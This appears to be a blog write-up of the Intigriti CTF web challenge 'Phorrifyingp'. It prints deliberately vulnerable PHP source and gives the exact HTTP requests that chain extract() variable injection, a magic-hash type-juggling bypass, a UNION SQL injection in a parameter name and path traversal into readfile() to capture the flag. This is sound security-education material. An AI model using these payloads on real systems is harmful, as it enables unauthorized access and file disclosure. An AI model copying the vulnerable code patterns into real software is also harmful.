 ```yaml
---
layout: post
title: Intigriti CTF — Phorrifyingp
author: Cillian
tags: [ctf, web]
---
```


In this post I'll discuss the first challenge our team solved as part of the Intigriti CTF. This was a php web challenge where we were given the source and asked to read the contents of the file to retrieve a flag.

<!-- read more -->

## Initial Assessment
The source code for the challenge can be seen below:

    <?php  
	    /*  
	    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>  
	    */  
	    if ($_SERVER['REQUEST_METHOD'] == 'POST'){  
		    extract($_POST);  
	      
		    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){  
			    $loggedin = true;  
		    }  
	      
		    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){  
		    header('Location: ' . $_SERVER['REQUEST_URI']);  
		    }  
		      
		    if (isset($loggedin) && $loggedin){  
			    echo 'One step closer 😎<br>';  
		      
			    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){  
				    echo 'Really? 😅<br>';  
				      
				    $db = new SQLite3('database.db');  
				    $sql_where = Array('1=0');  
				      
				    foreach ($_POST as $key => $data) {  
					    $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";  
				    }  
				      
				    $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));  
				      
				    if ($result == 'admin'){  
					    echo 'Last step 🤣<br>';  
				      
					    readfile(file_get_contents('php://input'));  
					}  
			    }  
		    }  
	    }  
    ?> 

We can see that this challenge will require us to bypass a number of conditional statements in order to execute the final readfile() function, where we will then need to modify our payload so that we can read a file.

## Step 1: We're Logged In!

    if (isset($loggedin) && $loggedin)

The first important conditional statement is checking if the $loggedin variable is true. We notice a suspicious usage of the extract() function above this. This function allows variables to be extracted from arrays. It's being run on $_POST which is our POST input (user/attacker controlled). This will allow us to not only declare variable, but also to assign values to them using POST data.

We can simply pass a loggedin parameter with a value of true.

> POST / HTTP/1.1 Host: phorrifyingp.ctf.intigriti.io Content-Type:
> application/x-www-form-urlencoded Content-Length: 32
> 
> loggedin=true

Once sent, we see the confirmation on the page:

> One step closer 😎

## Step 2: It's Magic!

    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action'])
  The next conditional statement is checking for a GET parameter named "action". This parameter must satisfy the condition that its value is equal to its md5 value.
  
  This seems very unlikely. In fact, it takes a little bit of understanding about php [magic hashes](https://www.whitehatsec.com/blog/magic-hashes/) to understand how this condition could be satisfied.

In short, the use of "=\=" allows for comparison of different object types. If we wanted to compare the literal value, we'd use "\=\=\=". If we enter a String with a value such as "0e1", this will effectively equal 0 to the power of 1 (which is 0). In fact, 0 to the power of any number will always result in 0.

Using this logic, we simply need an input beginning with 0e and followed by a series of numbers which results in a md5 hash which also begins with 0e and is followed by a series of numbers.

Once such input is "0e215962017". The md5 value of which is "0e291242476940776845150308577824".

Placing this as a GET parameter, we will get one step closer.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    
    loggedin=true
We get the confirmation:

> Really? 😅

## Step 3: State Of The Union

    if ($result == 'admin')
The last conditional statement checks if $result is equal to 'admin'. This value comes from a SQL statement. Each of the parameters we pass in our POST data will become a part of this query. They are joined with the 'AND' condition. The clause array is initially populated with "1=0" which can never be true.

Firstly, we encounter errors about "no such column loggedin", which hints that we'll need to find a way to get rid of this part of the query, we can do so by commenting it out.

    1--=aaaa&loggedin=true
Next, we notice that the current state of the query will never be true due to the "1=0" condition. This hints towards us using a UNION query to separately select the "admin" entry. We inject this into the parameter name.

   

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    
    1/**/UNION/**/SELECT/**/"admin"--=aaaa&loggedin=true

We receive the confirmation that we have bypassed this check:

> Last step 🤣

## Step 4: Traversing The Plane
   

> Warning</b>: 
> readfile(1/\*\*/UNION/\*\*/SELECT/**/&quot;admin&quot;--=aaaa&amp;loggedin=true):
> failed to open stream: No such file or directory in
> /var/www/html/index.php

As we can see from the error above, the entire POST data payload is being sent into the readfile() function.

We can enter invalid directories, as long as we traverse back out of them. Using "\.\." we are in effect removing it from the path **before** it is ever searched for.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
    
    1/**/UNION/**/SELECT/**/"admin"--=a&loggedin=true&test=/../../../../../../../../../../var/www/html/index.php

And we get the flag:

> 1337UP{PHP_SCARES_ME_IT_HAUNTS_ME_WHEN_I_SLEEP_ALL_I_CAN_SEE_IS_PHP_PLEASE_SOMEONE_HELP_ME}

## Final Notes
Thanks to all members of "Team Ireland Without RE" with special thanks to [@0daystolive](https://twitter.com/0daystolive).

